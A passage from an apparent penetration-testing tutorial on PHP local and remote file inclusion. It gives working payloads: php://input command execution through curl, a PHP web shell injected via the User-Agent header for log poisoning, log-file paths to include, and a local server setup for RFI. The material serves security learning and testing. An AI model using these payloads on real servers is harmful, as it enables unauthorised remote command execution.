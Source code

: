 We can now navigate to ```http://SITE/index.php?SOMETHING=data://text/plain;base64,BASE64_STING&cmd=id```. Don't forget to change ```BASE64_STING``` to the base64 web shell we generated.

### Input Wrapper 

> Same as Data Wrapper, we need to have the ```allow_url_include``` activated.
{: .prompt-danger }

We can use the ```cURL``` program. The following command will show the output for the ```id``` command but you can change it for any other command you want.

```console
curl -s -X POST --data "<?php system('id'); ?>" "http://SITE/index.php?SOMETHING=php://input"
```

## Apache / Nginx Log poisoning

Log poisoning is a technique that we can use to execute command and print their result in the logs. You can find log files in different locations but here is a list of several of them :
```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
/proc/self/environ
```

We are going to take the example of an Apache log poisoning here. If we can see the logs when we go to the following URL then the server may be vulnerable to log poisoning: 
```console
http://SITE/index.php?SOMETHING=/var/log/apache2/access.log
```

We can use the tool ```Burp Suite``` for this attack to easily and rapidly execute commands. 
1. Start the ```Burp proxy``` and intercept the request to the log file.
2. We then ```CTRL+R``` to send it to the ```repeater```.
3. Change the User-Agent to ```<?php system($_GET['cmd']); ?>```
4. Navigate in the ```repeater``` to ```http://SITE/index.php?SOMETHING=/var/log/apache2/access.log&cmd=id``` with the previous User-Agent

## Remote File Inclusion

Remote file inclusion (RFI) occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the form of an HTTP or FTP URI as a user-supplied parameter to the web application.

> allow_url_fopen (activated by default) and allow_url_include should be activated
{: .prompt-danger }

1.  
```console
python3 -m http.server 8080
```
or
```console
python3 -m SimpleHTTPServer 8080
```
